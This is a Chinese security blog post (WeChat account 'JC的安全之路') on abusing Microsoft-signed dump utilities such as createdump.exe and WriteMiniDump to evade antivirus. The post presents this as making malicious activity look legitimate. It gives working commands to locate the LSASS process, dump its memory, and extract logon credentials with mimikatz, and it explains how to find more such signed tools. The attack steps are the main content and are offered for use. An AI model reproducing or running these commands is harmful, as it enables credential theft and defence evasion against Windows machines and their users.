 #  聊聊minidump签名文件的滥用

原创 JC  [ JC的安全之路 ](javascript:void\(0\);)

**JC的安全之路** ![]()

微信号 csec527

功能介绍 一个安全从业者的想法见解 ，每周随缘更新1-2篇

____

___发表于_

收录于合集

#安全小技巧 6 个

#minidump 1 个

  

  

**前言**  
  

前段时间，看到好多佬发minidump的姿势，突发奇想，合法签名的dump难道不是更加专业？

  

 **01** **聊聊对抗相关  
**

  

AV对抗到现在，基本上最终的目的其实都是恶意软件合法化，关键点就在于如何让一个恶意文件变成合法的受反病毒所信任的一个文件。

目前流传的一些方法，寻找那些签名的辅助小工具，比如常见的Teamview，Todesk，向日葵远程控制，接下来以createdump.exe为例，聊聊如何寻找dump内存的白利用。  

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    C:\Users\JC\Desktop\dump>createdump.execreatedump [options] pid-f, --name - dump path and file name. The default is '%TEMP%\dump.%p.dmp'. These specifiers are substituted with following values:   %p  PID of dumped process.   %e  The process executable filename.   %h  Hostname return by gethostname().   %t  Time of dump, expressed as seconds since the Epoch, 1970-01-01 00:00:00 +0000 (UTC).-n, --normal - create minidump.-h, --withheap - create minidump with heap (default).-t, --triage - create triage minidump.-u, --full - create full core dump.-d, --diag - enable diagnostic messages.

这是一个合法的工具，带有微软签名，在微软的.net5.0的SDK工具包中。

下载地址：

https://dotnet.microsoft.com/zh-cn/download/dotnet/thank-
you/sdk-5.0.408-windows-x64-installer

安装后，搜一下就找到了

  * 

    
    
    C:\Program Files\dotnet\shared\Microsoft.NETCore.App\5.0.17

  

![](https://gitee.com/fuli009/images/raw/master/public/20230623141100.png)

它带有合法数字签名以及证书：

![](https://gitee.com/fuli009/images/raw/master/public/20230623141102.png)

  

使用也很简单，先找到lsass的进程，再使用管理员权限进行导出dump文件

  *   *   *   *   *   * 

    
    
    C:\Users\JC\Desktop\dump>tasklist |findstr lsasslsass.exe                      616 Services                   0     43,740 K  
    C:\Users\JC\Desktop\dump>createdump.exe 616 -uWriting full dump to file C:\Users\JC\AppData\Local\Temp\dump.616.dmpDump successfully written

![](https://gitee.com/fuli009/images/raw/master/public/20230623141104.png)

接下来嘛，使用mimikatz一把(没啥好说的)

> peach # sekurlsa::minidump C:\Users\JC\Desktop\dump.616.dmp  
> Switch to MINIDUMP : 'C:\Users\JC\Desktop\dump.616.dmp'  
>  
> peach # sekurlsa::logonpasswords  
>  
>

 **02** **如何查找  
**  
从查找来说，其实很简单，因为很多程序在上线之初，或多或少存在这样或者那样的BUG，有很多导致程序崩溃的BUG，开发为了方便定位BUG，一般会有附带的独立调试工具，这些调试工具中就包含dump程序内存，用来定位异常和调试。对我们而言，这些dump工具就是天然的白利用。  
    这里我就根据本机安装的一些正常软件，查找这类利用：

![]()

可以看到这个程序，也是用于dump内存的，并且包含微软的签名：  
![](https://gitee.com/fuli009/images/raw/master/public/20230623141105.png)简单的运行一下：  

![](https://gitee.com/fuli009/images/raw/master/public/20230623141106.png)

可以看到很贴心的给出了帮助:

![](https://gitee.com/fuli009/images/raw/master/public/20230623141107.png)

当然也是可以dump成功的。  

 除了上面的，其实还有很多，再举个例子：

 **WriteMiniDump**

![](https://gitee.com/fuli009/images/raw/master/public/20230623141108.png)

  

使用方法

  * 

    
    
    WriteMiniDump /type full 1844 123.dmp

![](https://gitee.com/fuli009/images/raw/master/public/20230623141109.png)

当然，这个有一定限制，只能dump32位进程的内存，仅仅只是举个例子罢了。

  
  

 **03** **写在最后  
**  

  

  世上本没有路

走得人多了

便有了路

安全亦是如此

  
  

![](https://gitee.com/fuli009/images/raw/master/public/20230623141110.png)

  

  

  
 **END**  
![]() **扫码关注了解更多** 安全小技巧  
  

  

  

  

  
  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

